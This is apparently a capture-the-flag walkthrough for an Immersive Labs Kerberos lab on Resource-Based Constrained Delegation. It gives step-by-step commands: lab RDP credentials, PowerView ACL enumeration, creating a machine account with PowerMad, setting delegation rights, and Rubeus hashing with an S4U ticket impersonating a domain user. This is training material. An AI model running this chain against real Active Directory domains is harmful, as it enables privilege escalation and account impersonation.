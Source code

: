 ```yaml
---
date: 2025-03-19
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.11 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Kerberos Ep.11 – Resource-Based Constrained Delegation (RBCD) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.11 – Resource-Based Constrained Delegation (RBCD)


![image1](../resources/acf4b1efdfed40ba82617d29aaac9a3c.png)

- RDP:

```bash
xfreerdp /v:10.102.81.46 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image2](../resources/59f728b2e31143279fb57ff6abe435e4.png)


![image3](../resources/00add91b42de458cb58e3d5d8fd2c494.png)

- Enumeration:

```powershell
. .\PowerView.ps1

get-domainuser s.villanelle -properties objectsid | select -exp objectsid

```

![image4](../resources/9fce19984a314375ad5e4ac1279d4a2c.png)

- Then, use the SID to enumerate what rights you have over Workstation-02 by running the command:

```bash
get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "[USER_SID]"}

get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "S-1-5-21-2984655098-284417223-3543700247-1121"}

```

![image5](../resources/d345e612b4484a6fa8e077489e00020c.png)


![image6](../resources/1486aeb35ae747a49a89028b530b5328.png)


![image7](../resources/3825e0e3c43b4055af8892ecada67b4d.png)


![image8](../resources/2e5c18f4823445d0bcc084376334c4de.png)

- Open Elevated Powershell:

```bash
. .\Powerview.ps1

Get-DomainObject -Identity "dc=krbtown,dc=local" -Domain krbtown.local

```

![image9](../resources/e2cb819759a4414e89e754b176536469.png)


![image10](../resources/33a1927dd54646c9b9b040094cdca15b.png)


![image11](../resources/a9d5c91b7e574921a84d4ce2944b53bf.png)


![image12](../resources/6f0f3726c11a4c39b07f2bb2d69f445b.png)


![image13](../resources/d847b9c6c0104d779bdacc1f4aed11cb.png)

- Open Elevated Powershell

```bash
. .\Powerview.ps1

Get-NetComputer Workstation-02 | Select-Object -Property name, msDS-AllowedToActOnBehalfOfOtherIdentity

```

![image14](../resources/6ef8a7da86574f3e8abf78ffcc3ac025.png)


![image15](../resources/c85c465d4bb84a69a6930dfb6fb76267.png)

- Open Elevated Powershell:

```bash
. ./PowerMad.ps1

```
New-MachineAccount -MachineAccount \<ANY_MACHINE_NAME\> -Password \$(ConvertTo-SecureString '\<RANDOM_PASSWORD\>' -AsPlainText -Force) -Verbose

**Give the machine a name of your choice and a password that meets the password policy**

```bash
New-MachineAccount -MachineAccount terminator -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose

```

![image16](../resources/4dff6fa14feb4fe097312d863f93126c.png)


![image17](../resources/b79ee794a7124ad5a9eda5f3ddf1e9cd.png)

Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount \<NEW_MACHINE_NAME\>\$

```bash
Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount terminator$

```

![image18](../resources/bec307712f264d0dbebbb9bd49581ebe.png)

- Open Elevated Powershell:

```bash
. .\Powerview.ps1

Get-ADComputer workstation-02 -Properties PrincipalsAllowedToDelegateToAccount

```

![image19](../resources/b30d43b19de345279141f03ba543e019.png)


![image20](../resources/cb2f4b40c2bf4a88bd70115e9afc2e0a.png)


![image21](../resources/dd5d27563c1c482da276e7111c53c94f.png)

- Open Elevated Powershell:

.\Rubeus.exe hash /password:\<PASSWORD_OF_NEW_MACHINE\> /user:\<NEW_MACHINE_USERNAME\>\$ /domain:krbtown.local

```bash
.\Rubeus.exe hash /password:Password123 /user:terminator$ /domain:krbtown.local

```

![image22](../resources/47e81e1cbd1d473c8b9cecb6bd34144c.png)


![image23](../resources/d3dcf7d691724bde8927c93f60381887.png)

rubeus s4u /user:\<NEW_MACHINE_USERNAME\>\$ /rc4:\<NEW_MACHINE_HASH\> /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```bash
.\Rubeus.exe s4u /user:terminator$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```

![image24](../resources/6478b76b0a284ac9890acd4e0938be08.png)


![image25](../resources/b3ebf0d4a70641e4b5cb7cbd832fd8bf.png)

- Check with: klist

![image26](../resources/20805bf54d6747448d1f41b316f581cd.png)


![image27](../resources/040b0400cc41472fb844f81364478e73.png)


![image28](../resources/00e48279ffef426d8baf930a3a5d04a3.png)


![image29](../resources/ca60ab9335384cc7879ce72eff5f6a37.png)
